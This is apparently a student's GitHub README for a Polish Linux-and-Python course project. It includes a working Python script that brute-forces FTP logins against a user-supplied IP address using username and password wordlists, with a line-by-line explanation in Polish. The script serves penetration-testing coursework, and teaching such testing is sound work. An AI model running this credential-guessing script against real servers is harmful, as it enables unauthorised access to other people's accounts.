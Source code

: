 ![Python 3.0](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/icon200.png)

# Projekt1---Linux-i-Python

## Repository for Projekt1 - Linux i Python

## Cele projektu:

![1](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z1.png)

![2](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z2.png)

![3](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z3.png)

![4](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z4.png)

![5](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z5.png)

![6](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z6.png)

![7](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z7.png)

![8](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z8.png)

![9](https://github.com/Orinies/Projekt1---Linux-i-Python/blob/main/z9.png)

6. Przeprowadzić atak brute-force na dowolną znalezioną usługę (nie musi się udać).
Na początku kodu importujemy bibliotekę ftplib, która definiuje m.in. klasę FTP.
import ftplib

Następnie pobieramy od użytkownika adres IP celu, dla którego będziemy łamać hasło. 
targethost = input("Podaj IP targetu: ")

Przypisuejmy bibliotekę do zmiennej
ftpserver = ftplib.FTP()

Ustalamy listę użytkowników i haseł do prób złamania hasła. Pliki powinny znajdować się w tej samej lokalizacji co plik Zad6.py
users = open("brute_users.txt")
passwords = open("passwords.txt")

Następnie zaczynamy pętlę, która sprawdza po kolei każde hasło, dla każdego użytkownika na liście podanej w linii 5 i 6
for user in users:
    user = user.replace("\n", "")
    passwords.seek(0)
    for password in passwords:
        password = password.replace("\n", "")
        print(f"Trying: {user}:{password}")
        try:
            ftpserver.connect(targethost, 21, timeout=5)
            ftpserver.login(user, password)
            print("zlamane")
            ftpserver.close()
        except Exception as e:
            print("Zle dane logowania")
            print(e)

Pętla pobiera userów po kolei z podanej listy
for user in users:

Przy każdym sprawdzeniu należy zamienić końcowy znak nowej linii na brak znaku, co jest robione w poniższej linii:
user = user.replace("\n", "")

Lista z hasłami powinna być ustawiana na jej początek po sprawdzeniu haseł dla każdego z użytkowników
passwords.seek(0)


Pętla zagnieżdżona w pierwszym „forze” pobiera hasła z listy haseł oraz podmienia znak nowej linii tak samo jak w przypadku użytkowników
for password in passwords:
	password = password.replace("\n", "")

Program podaje dane, dla których podejmowana jest próba złamania hasła
print(f"Trying: {user}:{password}")

Następnie podejmowana jest próba połączenia
ftpserver.connect(targethost, 21, timeout=5)
Gdzie:
	targethost – podany przez użytkownika adres IP celu
	21 – port
	timeout – czas oczekiwania na odpowiedź
Po udanej próbie połączenia, podawane są dane logowania z podanych wcześniej list
ftpserver.login(user, password)

Gdy próba zalogowania się powiedzie, wypisywana jest informacja i połączenie jest zamykane
print("zlamane")
ftpserver.close()

Jeżeli próba się nie powiedzie, zwracany jest błąd pod zmienną e
except Exception as e:
    print("Zle dane logowania")
    print(e)


## Technologia: 

Jezyki Linux & Python

PyCharm lub legitnie:
- Python - sudo + nazwa pliku

## Przykład użycia

Ustalanie własnego adresu IP oraz maski podsieci.

Wykonywanie podstawowych czynności testów penetracyjnych.
